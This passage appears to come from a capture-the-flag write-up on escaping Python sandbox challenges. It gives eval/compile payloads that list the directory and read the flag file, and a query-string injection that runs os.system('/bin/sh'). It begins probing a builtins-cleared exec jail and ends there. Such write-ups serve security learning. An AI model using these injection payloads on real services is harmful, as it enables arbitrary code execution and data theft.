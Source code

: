 ```
```
Which looks like this:
```python
    def listFiles(a, dir, files):
       print files
     path.walk(".", listFiles, None)
```
And then we put it in our special method:
```
eval(compile('def listFiles(a, dir, files):\n\tprint files\npath.walk(".",listFiles,None)', '<stdin>', 'exec'))
```
And look! (we get an error) but it lists all of the files in the directory (specifically 'your_flag_here'). Lets read that file.
```
eval(compile('print open("your_flag_here").read()', '<stdin>', 'exec'))
```
Ok, that solves python 3\. Python 4 is a fair bit easier. Since we get the 'import' function, all we need is to get an eval on `"__import__('os').system('/bin/sh')"` and we're good to go. After a bit of research on [Query Strings](http://en.wikipedia.org/wiki/Query_string), we get this:
```
GET /index.html?a="}+eval("__import__('os').system('/bin/sh')")+{"
```
Cool, now onto the harder python 5 (this one was by far the most fun). Here is the source:
```python
     #!/usr/bin/python -u
     # task5.py
     from sys import modules
     modules.clear()
     del modules
     _raw_input = raw_input
     _BaseException = BaseException
     _EOFError = EOFError
     __builtins__.__dict__.clear()
     __builtins__ = None
     print 'Get a shell, if you can...'
     while 1:
      try:
       d = {'x':None}
       exec 'x='+_raw_input()[:50] in d
       print 'Return Value:', d['x']
      except _EOFError, e:
       raise e
      except _BaseException, e:
       print 'Exception:', e
```
The answer to this is the second chunk of code in the tl;dr at the top, but I'm going to explain how I got there. The first thing I did was look up to documentation for [exec](http://docs.python.org/release/2.0/ref/exec.html). Then I went to see what kinds of things I had access to.
```
     Get a shell, if you can...
     print "a"
     Exception: invalid syntax (<string>, line 1)
     eval("2+2")
     Exception: name 'eval' is not defined
     x
     Return Value: None
     x.__class__
     Return Value: <type 'NoneType'>
     __builtins__
     Return Value: {}
     y
     Exception: name 'y' is not defined
     __builtins__['y']=1337
     Return Value: 1337
```